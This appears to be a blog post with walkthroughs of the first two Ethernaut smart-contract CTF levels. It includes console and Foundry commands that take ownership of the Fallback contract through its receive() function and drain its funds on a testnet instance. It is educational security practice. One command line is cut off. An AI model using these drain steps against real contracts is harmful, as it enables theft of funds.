

+++
title = "Ethernaut Challenge Solutions"
date = "2024-06-03"
description = "Walkthroughs for Ethernaut CTF challenges, covering vulnerabilities and exploitation techniques."
+++

Hello peeps, recently have started learning things about blockchain.Most probably ethernaut would be the first place where people will land to get their hands dirty. I too landed here and I have noted things that I learned through out this CTF challenges.

# Introduction
Ethernaut is a foundational platform for hands-on smart contract security practice. Below are my solutions for the first two challenges, highlighting key vulnerabilities and attack vectors.  
Everytime you got a challenge, start with a click on `Get new instance`. Once you done with it click on `Submit level` option.

# 1: Hello Ethernaut
**Link:** https://ethernaut.openzeppelin.com/level/0  
**Bug:** Sensitive data exposure  
**Objective:** Familiarize yourself with contract interaction via the browser console  
**Steps:**  
- As they mentioned in the problem statement,let's open the console tab and execute `await contract.info()`. let move forward with response it gives back



**Note:** You might be wondering how can I know that I need to execute the `await contract.password()` to get the password to authenticate. I strongly believe there might be a variable exist which is being checked in authenticate function. So I checked all the function and variables available in contract with the help of console suggestion whenever we add `await contract`.

# 2: Fallback
**Link:** https://ethernaut.openzeppelin.com/level/1  
**Bug:** Improper ownership transfer in receive() function.  
**Objective:** Become the owner and drain the contract’s funds.  
**Description:** The ownership will be given to the user who contributes more through `contribute()` function. But in the fallback function, I mean in the receive() function it is giving the ownership if you just send more than 0 eth and if you already contributed more than 0 eth using contribute() function.  
**Steps:**
1. make a call to contribute() function to contribute some eth.
2. now make a call to receive() function with some eth
3. call withdraw function to get all the funds from contract.

**Using Console:**
```shell
    web3.eth.sendTransaction(
        {
            from: player,
            to: contract.address,
            data: web3.eth.abi.encodeFunctionSignature("contribute()"),
            value: 10**10
        
        }
    )
    
    web3.eth.sendTransaction(
        {
            from: player,
            to: contract.address,
            data: '',
            value: 10**10
        }
    )
```

**Using Foundry:**
    I usually use foundry. In foundry setup, we have a tool called `cast` to interact with contracts. You can follow the below commands.
```shell
    cast send 0x678be0dE93C246b60d05b0dC53E03c226A77bE0E "contribute()" --value 1 --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_U
    cast send 0x678be0dE93C246b60d05b0dC53E03c226A77bE0E  --value 1 --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_URL
    cast send 0x678be0dE93C246b60d05b0dC53E03c226A77bE0E "withdraw()" --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_URL
```


